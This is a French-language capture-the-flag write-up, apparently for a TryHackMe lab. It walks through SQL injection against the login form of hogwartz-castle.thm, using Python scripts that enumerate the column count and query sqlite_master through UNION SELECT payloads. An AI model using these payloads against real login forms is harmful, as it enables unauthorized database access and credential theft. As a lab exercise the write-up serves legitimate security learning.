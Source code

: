 Sur le nouveau nom de domaine on a un formulaire pour se connecter avec des identifiants.  
On tente un injection est on a une message qui est : The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat colonne.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
i = 1

while True:
    data['password']='whatevs'
    data['user'] = "' or 1=1 order by " + str(i) + " -- "
    r = requests.post(url,data=data)
    r.status_code
    if str(r) != "<Response [403]>":
        break
    i += 1

print(i-1)
```

On crée un script qui permet d'obtenir le nombre colonne.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python colonne.py 
4
```

Dans notre cas on a 4 colonnes.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select table_name,2,3,4 from information_schema.tables --"
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

On teste avec information_schema pour voir si c'est MySQL mais ça ne fonctionne pas.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select tbl_name,2,3,4 from sqlite_master -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for users is incorrect! 4"}
```
